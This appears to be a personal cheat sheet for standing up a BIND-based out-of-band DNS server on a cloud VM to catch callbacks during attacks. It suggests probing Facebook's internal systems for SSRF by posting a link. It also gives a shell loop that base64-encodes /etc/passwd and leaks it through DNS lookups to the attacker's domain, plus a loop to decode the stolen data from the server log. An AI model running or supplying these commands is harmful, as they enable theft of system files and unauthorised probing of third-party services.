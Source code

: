 # Bind Server Setup
https://www.youtube.com/watch?v=p8wbebEgtDk&list=PLF7JR1a3dLONdkRYU_8-5OcgOzrWe2549&index=6

Need:
1. Domain Name 
2. Cloud VM (AWS, Azure, etc.) Setup
3. Setup NS 
  - add host name to go daddy and put in the IP of the cloud VM. 
  - add name server ns1.<FQDN>, 1.1.1.1, 8.8.8.8, 8.8.4.4
  - https://dcc.godaddy.com/manage/<FQDN>/dns/hosts
      - Host: ns1
      - IP: from AWS
  - https://dcc.godaddy.com/manage/<FQDN>/dns
      - Namerservers: ns1.Strat0m.com , one.one.one.one
4. Download PEM file and chmod 400 
5. setup firewall rules
6. git clone https://github.com/JuxhinDB/OOB-Server.git
  ```
  sudo ./setup <FQDN> <Cloud-VM-IP>
  sudo tail -f /var/log/named/named.log
  ```
7. test with: 
  ```
  ping hello.<FQDN>
  ```
8. use for SSR. 
  Example: go to facebook and post the link http://helloFB.<FQDN> and check to see if facebooks internal systems are connecting back to your DNS server. 
9. Grep the log file for key words related to your attempted exploits.   
  
  
# Encode and exfiltrate data:
```
for i in $(cat /etc/passwd); do key=$(echo "$i" | base64 | sed 's/=//g'); ping -c 1 $key.<FQDN>; done
```

# Decode and retrieve the information:
```
for i in $(cat /var/log/named/named.log); do echo $i | awk '$1 ~ "<FQDN>" { gsub(".<FQDN>",""); print $1}' | base64 -d -i >> info.txt; done
```
